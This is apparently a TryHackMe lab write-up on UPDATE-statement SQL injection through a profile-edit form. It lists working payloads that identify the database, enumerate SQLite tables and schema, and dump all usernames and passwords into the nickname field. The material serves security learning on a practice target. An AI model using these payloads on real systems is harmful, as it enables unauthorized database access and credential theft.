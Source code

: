 - Went to `Edit Profile` image. This might be vulnerable to UPDATE SQL Injection.
- On looking at its source code found the name of fields as `nickName`,`email`,and `password`, these can be potential column names .

```html
<div class="login-form">
    <form action="/sesqli1/profile" method="post">
        <h2 class="text-center">Edit Francois's Profile Information</h2>
        <div class="form-group">
            <label for="nickName">Nick Name:</label>
            <input type="text" class="form-control" placeholder="Nick Name" id="nickName" name="nickName" value="test">
        </div>
        <div class="form-group">
            <label for="email">E-mail:</label>
            <input type="text" class="form-control" placeholder="E-mail" id="email" name="email" value="">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <input type="password" class="form-control" placeholder="Password" id="password" name="password">
        </div>
        <div class="form-group">
            <button type="submit" class="btn btn-primary btn-block">Change</button>
        </div>
        <div class="clearfix">
            <label class="pull-left checkbox-inline"></label>
        </div>
    </form>
</div>
```

- Changed Nick Name to `1', nickName='test1', email='1234' -- -`
- Updated data.
- In the home page the nick name of the user is changed to `test1` and email to `1234`.
![new profile data](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/3.png).

- Now we can try to find databases that the back-end is using

```console
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```

- Tried uploading first two payloads, but the data didn't change, but on uploading 3rd payload the Nick Name field changed to `3.22.0`
![new profile data](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/4.png) 
- So we know that the database is `SQLite`.
- Added SQL injection `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='` payload to the nick name field and updated data.
- New update query would be
```SQL
UPDATE usertable SET nickName='',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='',email='1234' WHERE UID='1'
```
![new profile data](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/5.png) 
- Got the table name `usertable`.
- Then we can extract usernames from the table `usertable`.

```SQL
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```
![new profile data](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/6.png)
- Now we can extract column values from the table

```SQL
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
```
- Got user Data
![usertable data](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/7.png) 
